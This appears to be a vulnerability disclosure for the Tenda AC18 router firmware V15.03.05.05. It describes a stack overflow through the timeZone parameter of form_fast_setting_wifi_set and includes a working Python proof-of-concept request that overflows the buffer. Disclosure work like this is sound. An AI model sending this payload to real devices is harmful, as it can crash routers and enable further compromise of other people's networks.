 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `v1` variable receives the `timeZone` parameter from a POST request and is later assigned to the `v16` variable. Then v16 is assigned to `nptr` and `v7` by `sscanf`. However, since the user can control the input of  `timeZone`, the statement `strcpy(v8, v7);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v8` array, triggering this security vulnerability.

![image-20240308203931092](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308203931092.png)

![image-20240308203913642](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308203913642.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {

    'timeZone': 'a' + ":" + "aaa" * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240308203956288](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308203956288.png)
